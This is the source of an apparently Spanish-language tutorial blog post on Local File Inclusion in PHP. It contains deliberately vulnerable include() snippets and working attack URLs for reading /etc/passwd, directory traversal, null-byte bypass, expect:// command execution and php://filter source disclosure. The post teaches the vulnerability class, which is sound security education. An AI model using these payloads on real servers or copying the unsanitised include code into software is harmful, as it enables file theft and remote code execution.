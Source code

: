 ```yaml
---
title: Local File Inclusion (LFI)
categories: [Directory Path Traversal, Null Byte, Wrappers]
published: true
lang: es
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* [XSS](https://mateonitro550.github.io/Cross-Site-Scripting-(XSS)) (Cross-Site Scripting)
* DoS (Denial of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
localhost/lfi.php?filename=/etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/1.png)

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
localhost/lfi.php?filename=../../../etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/2.png)

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        include($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estaríamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
localhost/lfi.php?filename=/etc/passwd%00
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/3.png)

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados; por mencionar algunos tenemos:

### [](#header-3)expect://

Nos permite una ejecución remota de comandos (RCE); cabe aclarar que este _wrapper_ no está activado por defecto, por lo que no siempre será posible utilizarlo.

```
localhost/lfi.php?filename=expect://whoami
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/4.png)

### [](#header-3)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que, si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/5.png)

```
localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=filterWrapper.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/6.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/7.png)
